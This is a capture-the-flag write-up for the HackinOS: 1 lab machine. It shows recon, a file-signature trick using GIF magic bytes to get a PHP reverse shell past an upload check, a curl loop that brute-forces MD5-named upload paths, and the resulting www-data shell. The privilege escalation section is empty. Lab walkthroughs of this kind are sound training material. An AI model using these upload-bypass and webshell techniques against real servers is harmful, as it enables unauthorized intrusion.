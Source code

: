 # HackinOS: 1

## Recon & Enummeration

Nmap shows us two interesting webservices
```

```

### Port 8000
It's a plain wordpress website. While the Nmap scan is running, we try robots.txt:
```
User-agent:*
Disallow:/upload.php
Disallow:/uploads

```

Also we come across a username: `Handsome_Container`

## Intitial Foothold

The page http://10.10.10.10:8000/upload.php gives us an LFI.
Also, the source code is available via a link in the source code:
https://github.com/fatihhcelik/Vulnerable-Machine---Hint/blob/master/upload.php

We craft a reverse shell php file called `advancedshell.php` and start a listener on port 1234 to catch the reverse shell.

It doesn't work because the file type isn't an actual PNG file. Thus we modify the file signature as follows:
```
echo "47 49 46 38 37 61" | xxd -r -p - shell.php
```
which contains the file signature of a GIF file.

We bruteforce the upload storage algrithm as follows:
```
for i in $(seq 1 100); do echo -n "shell.php"$i | md5sum | cut -d' ' -f 1| sed -rn 's|(.+)|http://10.10.10.10:8000/uploads/\1.php|p' | parallel 'echo {}; curl -s {}' ;done
```

Then we obtain a shell:

```
www-data@1afdd1f6b82c:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation



